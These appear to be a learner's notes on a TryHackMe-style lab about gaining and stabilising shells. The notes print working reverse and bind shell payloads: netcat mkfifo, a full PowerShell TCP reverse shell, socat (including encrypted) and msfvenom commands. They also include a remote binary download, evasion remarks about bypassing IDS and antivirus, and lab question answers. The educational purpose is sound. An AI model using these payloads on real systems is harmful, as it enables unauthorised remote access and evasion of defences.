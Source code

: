 ### WHAT IS SHELL?
Shells are what we can use to interface with a Command Line Environment. 

**Tools which we can use to gain Reverse Shells**  
_Netcat_  
Netcat is used to manually perform all kinds of networking tasks manually like banner grabbing during enumeration. The shell is usually unstable but can be made stable  


_Socat_  
Socat is similar to Netcat but even better. But but the syntax of Socat is harder and finding it on a server pre-installed is kinda rare whereas Netcat is virtually found on each distro. 

_Auxiliary/Multi/Handler_  
It is the metasploit's module used to receive the reverse shells. Similar to socat and netcat. Stable shell straight out of the box. Also easiest way to interact with meterpreter shell. 

_MSFVenom_  
Like Multi handler and kinda part of Metasploit but still standalone as well, is used to create payloads on the fly, It can generate many types of payload which also include reverse and bind shells

**Types of Shell**  
_Reverse Shells_ - It is generated whem the target is forced to run the code and connects back to our system. We'd have to use a listener to receive the connection. When receiving a shell from a machine over the internet, we'll need to configure our computer to accept the shells, Which is not required when accessing THM. Example - 
![](./Reverse_Shell.png)

_Bind Shells_ - It is called so because the code is executed on the server and we are to attach the shell directly to the target. We don't need any extra configuration on our end but it might be prevented by the firewall. Example - 
![](./Bind_Shell.png)

  
  
  
**Listeners -**  
_Netcat Listener_ - Syntax is something like this -
```
nc -lvnp <Port Number>
```
Explaination -  
*  -l - To operate in listener mode
*  -v - For verbose output
*  -n - Tells to not resolve host name or use DNS
*  -p - Indicates that port number will be added 

**Stabilising Netcat Shell -**  
_Python_ - Applicable to Linux systems only. There are 3 stages to this
1. By using python -c 'import pty;pty.spawn("/bin/bash)'. 
2. Then export TERM=xterm
3. Then we can background this shell using ctrl-z and then use - stty raw -echo; fg. It turns off our own terminal echo and then it foregrounds the shell.  

_rlwrap_ - It is a program which gives us access to history, tab autocompletion and the arrow keys immediately upon receiving shell. We can use rlwrap nc -lvnp < port >. Particularly useful when dealing with Windows shells. We can achieve even more stabilisation when by using the same thing as step 3 of python.  

_Socat_ - In this method we simply use the netcat shell to gain a socat shell. Limited to Linux systems only because socat is equally unstable as netcat in Windows. To get a socat shell we are required to transfer a socat static compiled binary. In the windows CLI environment we can use Invoke-WebRequest or a webrequest system class. (Invoke-WebRequest -uri < LOCAL-IP >/socat.exe -outfile C:\\Windows\temp\socat.exe)  


**Socat**  
Socat is similar to netcat but fundamentally different in many ways. Socat is a connector between two point. It can be a listening port and a keyboard/file or even two listening ports. Just like portal. Ping me up if you need someone to play portal with.  

_Reverse Shells_ - Listener syntax -> socat TCP-L:< port > -  
On windows we will use the following to connect back -> socat TCP: < LOCAL-PORT > EXEC:powershell.exe,pipes  
"Pipes" is used to force powershell to a Unix style standard input and output

On linux systems we can use -> 
```
socat TCP:< Local-IP >:< Local Port > EXEC:"bash -li"
```

_Bind Shells_ -   
On Linux -> 
```
socat TCP-L:< PORT > EXEC:"bash -li'  
```
On Windows -> 
```
socat TCP-L:< PORT > EXEC:powershell.exe,pipes  
```

And also don't forget to connect to the waiting shells from attacking machine.  

_Stabilisation_ - On a linux system, we can get a fully stable Linux tty reverse shell. Better listener syntax -> 
``` 
socat TCP-L:< port > FILE:`tty`,raw,echo=0.  
```
In the previous syntax, we are passing the current TTY as a file and setting echo to be zero. Equivalent to step 3 in python, but the thing being, it's fully functional and stable out of the box.  
Tho above listner need a special socat command. It can't just be invoked as such. ->  

```
socat TCP:< local ip >:< port > EXEC "bash -li",pty,stderr,sigint,setsid,sane
```
To break it down - 
1. pty - allocates pseudoterminal on the target.
2. stderr - Makes sure error messages are shown in shell
3. sigint - passes any CTRL+C commands through into the sub-process.
4. setsid - Creates process in a new session
5. sane - stabilises the terminal. 

_Encrypted Socat Shells_ - Why? Encrypted shells can not be spied upon without the decryption key and often can bypass IDS as a result. Basically in syntax, TCP is replaced with OPENSSL. Starting off, we need to generate our certificate to use encrypted shells. We can use the following -  
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
The above thing will make a 2048 RSA key with matching cert file, self-signed and valid for just under a year. Next up we need to merge these both files and a .pem file. 
```
cat shell.key shell.crt > shell.pem
```
Setting up the listener -  
```
socat OPENSSL-LISTEN:< port >, cert=shell.pem,verify=0 - 
```
To connect to the listener -  
```
socat OPENSSL:< local-IP >:< local port >,verify=0 EXEC:/bin/bash
```

Q. What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"?  
```
socat OPENSSL-LISTENER:53,cert=encrypt.pem,verify=0,FILE:`tty`,raw,echo=0
```
Q. If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?
```
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

**Common Shell Payloads**  
A very basic netcat shell is -  
```
nc < local ip > < port > -e /bin/bash
```
Well as a suprise to no one, it is usually not present cause it's pretty insecure.  
So as a result we can use -  
```
mkfifo /tmp/f; nc < local ip > < port > < /tmp/f | /bin/sh > /tmp/f 2>&1; rm tmp/f
```
WHAT IS THIS SORCERY?????  
So first we are making a named pipe, namely /tmp/f, and then we executed the netcat as we normally would, and it connects the listener to the input of the said named pipe. The input from the netcat is directly piped in to the sh, sending stderr input stream into stdout, and sending stdout itself into the input of the named pipe.  

When in need of a windows powershell reverse shell we can look forward to the following one liner -  
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('< ip >',< port >);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**MSFVENOM**  
It is the big boi of all the payload related thing and is also a part of metasploit framework. Standard syntax -  
```
msfvenon -p <PAYLOAD> <OPTIONS>
```
Example -  
```
msfvenon -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```
Here -  
*  f - format of file
*  o - output file and location

_Two types of reverse shell payloads -_
1. Staged - These ones are sent in two parts, first one is a stager. Stager is executed on the server and connects back to the listener. It doesn't have a reverse shell payload itself, but it uses that connection to load the payload and executing it directly without it even going on the disk so traditional AV bypass :). The listener is usually the metasploit Multi/Handler. 
2. Stageless - They are more common. They are entirely self contained piece of code which sends the shell back immediately when executed.  

Q. What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell
```
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell.elf LHOST=10.10.10.5 LPORT=443
```


